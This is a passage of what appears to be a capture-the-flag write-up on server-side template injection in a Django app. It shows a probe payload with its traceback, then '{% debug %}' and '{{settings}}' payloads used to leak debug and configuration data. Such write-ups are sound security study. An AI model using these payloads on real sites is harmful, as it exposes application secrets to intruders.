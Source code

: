 Trying to add the payload “{{3\*3}}” generates the following stack trace:

![img](media/f8f173c507caf4e33a265706577de2eb.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Traceback (most recent call last):  File "<string>", line 11, in <module>  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__    self.nodelist = self.compile_nodelist()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist    return parser.parse()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse    raise self.error(token, e)django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*3' from '3*3'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Knowing it uses a Django template we can leak debug information with the
payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{% debug %}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/daaf09a13cede72977d72cf133f99ade.png)

There is an element “settings” in Django of type UserSettingsHolder:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{settings}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
